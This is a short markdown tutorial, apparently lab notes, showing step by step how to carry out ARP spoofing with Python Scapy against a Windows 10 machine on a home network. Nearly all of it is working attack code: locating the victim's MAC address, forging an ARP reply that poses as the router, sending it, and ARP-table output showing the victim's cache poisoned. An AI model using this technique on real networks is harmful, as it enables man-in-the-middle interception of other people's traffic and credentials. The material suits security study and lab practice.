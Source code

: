 # ARP SPOOFING

- ## some variables

```
BROADCAST_MAC: ff:ff:ff:ff:ff:ff

KALI_IP      : 192.168.1.195
KALI_MAC     : ka:li:ma:c0:ad:dr

W10_IP       : 192.168.1.10
W10_MAC      : w1:00:ma:c0:ad:dr

ROUTER_IP    : 192.168.1.254
ROUTER_MAC   : ro:ut:er:0m:ac:00
```

- create Ether layer
    ```
    broadcast = Ether(dst=BROADCAST_MAC)
    ```

- create ARP layer
    ```
    arp_layer = ARP(pdst=W10_IP)
    ```

- create ARP packet
    ```
    arp_packet = broadcast/arp_layer
    ```

- send ARP request ang get answered and unanswered lists
    ```
    answer, unanswer = srp(arp_packet, timeout=2, verbose=True)
    ```

- get sent and received layers fromn answer
    ```
    sent, received = answer[0]
    ```

- get target mac address
    ```
    target_mac = received.hwsrc # W10_MAC
    ```

- create spoofing packet
    ```
    packet = ARP(op=2, hwdst=W10_MAC, pdst=W10_IP, psrc=ROUTER_IP)
    ```

- check arp
    ```
    C:\>arp -a | findstr "192.168.1.195 192.168.1.254"
      192.168.1.195         ka:li:ma:c0:ad:dr     dynamic
      192.168.1.254         ro:ut:er:0m:ac:00     dynamic
    ```

- send spoof packet
    ```
    send(packet, verbose=False)
    ```
- check again arp 
    ```
    C:\>arp -a | findstr "192.168.1.195 192.168.1.254"
      192.168.1.195         ka:li:ma:c0:ad:dr     dynamic
      192.168.1.254         ka:li:ma:c0:ad:dr     dynamic
    ```
